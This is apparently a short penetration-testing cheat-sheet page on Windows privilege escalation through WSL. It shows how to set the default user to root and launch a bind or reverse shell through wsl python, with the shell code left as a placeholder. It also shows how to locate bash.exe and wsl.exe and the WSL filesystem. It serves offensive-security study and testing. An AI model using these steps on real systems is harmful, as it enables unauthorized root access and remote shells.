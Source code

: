 
# Windows Subsystem for Linux

## EoP - Windows Subsystem for Linux (WSL)

With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

```
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c  BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

**Finding these binaries**

```
where /R c:\windows bash.exe
```

```
where /R c:\windows wsl.exe
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL`filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

 

**Resources**

Spawning a TTY Shell - [https://netsec.ws/?p=337](https://netsec.ws/?p=337)

Impacket Toolkit - [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)